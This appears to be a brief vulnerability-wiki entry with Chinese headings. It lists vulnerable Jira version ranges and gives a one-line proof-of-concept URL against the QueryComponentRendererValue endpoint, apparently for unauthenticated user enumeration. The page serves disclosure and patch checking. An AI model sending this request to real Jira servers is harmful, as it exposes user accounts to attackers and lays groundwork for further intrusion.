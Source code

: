 <languages /> <translate>

影響版本
--------

</translate>

    Jira < 8.5.13
    8.6.0 ≤ Jira < 8.13.5
    8.14.0 ≤ Jira < 8.15.1

POC
---

    /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

<translate>

截圖
----

</translate> ![](Twitter_E3k2_J4VIAAWR_6.jpg "fig:Twitter_E3k2_J4VIAAWR_6.jpg")
